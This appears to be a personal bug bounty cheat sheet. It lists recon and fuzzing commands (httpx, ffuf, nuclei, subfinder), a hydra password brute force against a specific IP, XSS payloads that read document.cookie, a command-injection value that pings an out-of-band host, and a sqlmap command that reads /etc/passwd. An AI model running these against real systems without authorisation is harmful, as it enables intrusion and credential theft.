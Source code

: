 # Bug Bounty Personal Tips

## Recon 

## shodan
`http.favicon.hash:123456789`

## Basic Auth
`hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 94.237.51.23 http-get / -s 42849`

## HTTPX 

`/home/kali/go/bin/httpx -l FC -ss -srd /media/sf_Test/FC/screenshots/ --title --status-code -o /media/sf_Test/FC_httpx.txt `

`/home/kali/go/bin/httpx -l FC -proxy http://192.168.0.131:1337 `

```
/home/kali/go/bin/httpx -l CHANGEME \
    -p 80,81,443,591,593,832,981,1010,1311,2082,2087,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5800,6543,7000,7396,7474,8000,8001,8008,8014,8042,8069,8080,8081,8088,8090,8091,8118,8123,8172,8222,8243,8280,8281,8333,8443,8500,8834,8880,8888,8983,9000,9043,9060,9080,9090,9091,9200,9443,9800,9981,12443,16080,18091,18092,20720,28017,11443 \
    -sc -follow-redirects --title -ss -favicon \
    -srd /media/sf_Test/CHANGEME/screenshots/ \
    -o /media/sf_Test/CHANGEME/CHANGEME_httpx.txt \
    -proxy http://192.168.0.131:1337
```

## FUZZ 

```
ffuf -w /media/sf_Test/_CHANGEME/CHANGEME.txt:DOMAINSFUZZ \
     -w /media/sf_Test/https.txt:SCHEMEFUZZ \
     -w /media/sf_Test/filesoptmized.txt:FILESFUZZ \
     -u "SCHEMEFUZZ://DOMAINSFUZZ/FILESFUZZ" -x "http://192.168.0.131:1337" -t 500
```

## XSS
`  : /"><script>alert(document.cookie)</script> `

` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E `

## SSRF 
` galletita ; ping -c 1 burp.oastify.com `

## SQLMAP

`sqlmap -u "http://X/dashboard/dashboard.php" --file-read="/etc/passwd"`

### OTHERS
` assetfinder X.com | tee -a /tmp/X.txt`

` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt `

`  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337`

` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 `

` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" `

